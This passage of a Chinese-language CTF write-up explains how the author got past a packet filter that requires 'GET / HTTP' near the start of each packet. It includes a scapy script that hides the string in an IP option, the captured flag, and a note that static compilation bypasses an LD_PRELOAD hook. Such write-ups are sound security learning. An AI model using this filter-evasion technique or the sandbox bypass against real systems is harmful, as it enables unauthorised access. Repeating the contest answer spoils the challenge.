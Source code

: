 ```py

```

结果发现第二题也能过，后来了解到是题目出的有问题。

第三题，只允许前 50 个字节包含 `GET / HTTP` 的 TCP 包通过，自然考虑到在 TCP 包的 Header 里塞入这个字符串。

于是在研究了一晚上手搓协议栈之后选择了放弃，不过第二天突然发现有个好用的库叫做 `scapy`，直接找了份现成的代码做了小修改。

```py
# ref: https://blog.csdn.net/qq_43402663/article/details/122755489
from scapy.all import *

from scapy.layers.http import HTTP
from scapy.layers.inet import IP, TCP, IPOption
from scapy.layers.l2 import Ether

payload = "hello"

dst_ip = "202.38.93.111"
dst_port = 18082
src_port = 20001
data = b"""POST / HTTP/1.1
Host: 202.38.93.111:18082
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

149:u149=""".decode('utf-8')

try:
    spk1 = IP(dst=dst_ip, options=IPOption(b'\x21\x0CGET / HTTP')) / TCP(dport=dst_port, sport=src_port, flags="S")
    res1 = sr1(spk1)
    print(res1)
    ack1 = res1[TCP].ack
    ack2 = res1[TCP].seq + 1
    spk2 = IP(dst=dst_ip, options=IPOption(b'\x21\x0CGET / HTTP')) / TCP(dport=dst_port, sport=src_port, seq=ack1, ack=ack2, falgs="A")
    send(spk2)
except Exception as e:
    print(e)
da1 = IP(dst=dst_ip, options=IPOption(b'\x21\x0CGET / HTTP')) / TCP(dport=dst_port, sport=src_port, seq=ack1, ack=ack2, flags=24) / data
res2 = sr1(da1)

# flag{1p_OoOpt10ns_c0fa9b7b01}
```

## 为什么要打开 /flag 😡

第一题，`LD_PRELOAD` 导致 `open` 等函数变成了被指定的库中的函数。

搜了大半天没找到怎么绕过 `LD_PRELOAD` （不过官方题解说只要静态编译就好了）。
